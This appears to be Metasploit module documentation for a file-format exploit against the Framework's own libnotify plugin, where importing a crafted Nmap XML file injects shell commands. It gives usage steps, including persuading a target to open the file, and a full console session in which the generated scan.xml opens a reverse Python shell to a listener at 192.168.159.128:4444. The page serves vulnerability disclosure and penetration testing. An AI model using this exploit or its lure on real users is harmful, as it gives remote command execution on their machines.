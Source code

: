 ## Vulnerable Application

Metasploit Framework versions prior to 5.0.86 are vulnerable to a command
injection vulnerability in the default `libnotify` plugin. The `libnotify`
plugin fails to properly parse the argument array to an executed operating
system command. If an attacker can convince a user running an affected version
of the Metasploit Framework with the `libnotify` plugin loaded to import a
specially crafted data file with `db_import`, they can execute a command within
the context of the user running Metasploit.

In order to trigger the vulnerable code path, the service reported must be
unique. This means that when the exploit file is loaded, it will not trigger the
vulnerability again unless the service is removed. The easiest way to remove the
service is to delete all services from the database using the `services -d`
command.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/unix/fileformat/metasploit_libnotify_cmd_injection`
  4. Set options as appropriate
  5. Do: `exploit`
  6. Start a payload handler using `exploit/multi/handler`
  7. Transfer the file to the intended target and convince them to open it

## Scenarios

### Metasploit Framework v5.0.76


```
msf > use exploit/unix/fileformat/metasploit_libnotify_cmd_injection 
msf exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > show options 

Module options (exploit/unix/fileformat/metasploit_libnotify_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  scan.xml         no        The file to write.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > exploit

[*] Writing xml file: scan.xml
[+] scan.xml stored at /home/smcintyre/.msf4/local/scan.xml
msf exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > use exploit/multi/handler 
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.159.128:4444 
msf exploit(multi/handler) > version
Framework: 5.0.76-dev-50cfb07cff
Console  : 5.0.76-dev-50cfb07cff
msf exploit(multi/handler) > load libnotify
[*] Successfully loaded plugin: libnotify
msf exploit(multi/handler) > services -d
Services
========

host  port  proto  name  state  info
----  ----  -----  ----  -----  ----

msf exploit(multi/handler) > db_import /home/smcintyre/.msf4/local/scan.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.8'
[*] Importing host 192.168.20.121
sh: line 1: State:: command not found
sh: line 2: Proto:: command not found
sh: -c: line 3: unexpected EOF while looking for matching `''
sh: -c: line 4: syntax error: unexpected end of file
[*] Successfully imported /home/smcintyre/.msf4/local/scan.xml
msf exploit(multi/handler) > [*] Command shell session 4 opened (192.168.159.128:4444 -> 192.168.159.128:35516) at 2020-04-16 14:54:39 -0400

msf exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

id
uid=1000(smcintyre) gid=1000(smcintyre) groups=1000(smcintyre),10(wheel),974(wireshark),975(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
